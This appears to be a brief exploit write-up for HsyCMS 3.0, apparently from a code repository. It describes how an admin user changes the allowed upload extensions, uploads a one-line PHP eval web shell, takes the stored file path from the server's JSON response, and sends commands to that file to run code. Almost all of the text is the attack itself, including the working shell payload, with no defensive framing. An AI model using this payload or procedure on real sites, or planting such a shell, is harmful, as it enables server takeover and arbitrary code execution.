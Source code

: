 # hsycms3.0-exp

'''
after logged in as admin 
'''

firstly change the config upload_ext


'''
upload shell <?php eval($_POST['cmd']);?>
'''


'''
get upload path  
for example 
{"status":"y","info":"文件上传成功",
"url":"\/upload\/20200408\/e04236222373ddc238d016c390d38cc0.php",
"ext":"php",
"name":"e04236222373ddc238d016c390d38cc0"}
then open http://192.168.0.128:80/upload/20200408/e04236222373ddc238d016c390d38cc0.php and POST cmd to execute code
'''
